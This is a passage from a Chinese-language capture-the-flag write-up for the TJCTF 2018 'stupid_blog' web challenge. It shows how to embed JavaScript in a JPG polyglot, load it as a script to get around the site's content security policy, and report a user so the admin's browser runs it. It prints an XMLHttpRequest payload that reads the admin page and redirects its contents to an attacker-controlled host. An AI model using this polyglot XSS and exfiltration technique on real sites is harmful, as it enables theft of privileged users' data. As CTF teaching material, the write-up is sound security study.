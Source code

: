`0xFF`，`0xFE`代表数据域开始，`0x00`，`0x1C`代表后面数据的长度加上这两个字节的本身长度。0x001C化为十进制代表28个字节，也就是56位

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_53.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_53.png)

最后，JPG的文件尾部`2A 2F 2F 2F FF D9`

`0xFF`、`0xD9`代表JPG文件尾部的最后2个字节，意味着JPG文件的结束.

如此，当把代码`/=alert("Burp rocks.");/*`插入到一张jpg中，将是下面格式

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_54.png)

接着回到题目先上传该文件，上传成功后，你可以访问`https://stupid_blog.tjctf.org/&lt;Username&gt;/pfp`

下载这时的pfp文件，验证是否跟上传的一样

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_55.png)

可以发现一模一样，意味着成功往JPG中写入了代码，再看看能不能执行

Post填入

`&lt;script charset="ISO-8859-1" src="/jianghuxia/pfp"&gt;&lt;/script&gt;`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_56.png)

SAVE，就会弹出提示框

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_57.png)

很好，我们成功了。那么接下来只需要简单改改上传图片中的代码，然后进行相同的操作，最后再进行一步“Report a User”就行。

现在需要写入的是：

`*/=x=new XMLHttpRequest();x.open("GET","admin",false);x.send(null);document.location="http://&lt;your severhost&gt;/j"+x.responseText;/*`

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_58.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_58.png)<br>
按照刚刚的填充JPG文件方法，计算长度<br>[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_59.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_59.png)

再加上前面2个代表长度的标识字节,264+2*2=268,268/2=134，再转16进制，为0x86。再加上JPG的文件头尾格式，得到下图

[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_60.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_60.png)

上传文件，并且上传完成后再SAVE一遍Posts<br>[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_61.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_61.png)

报告提交给admin<br>[![](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_62.png)](https://jianghuxia.github.io/2018/08/13/tjctf2018/tjctf2018_web_62.png)

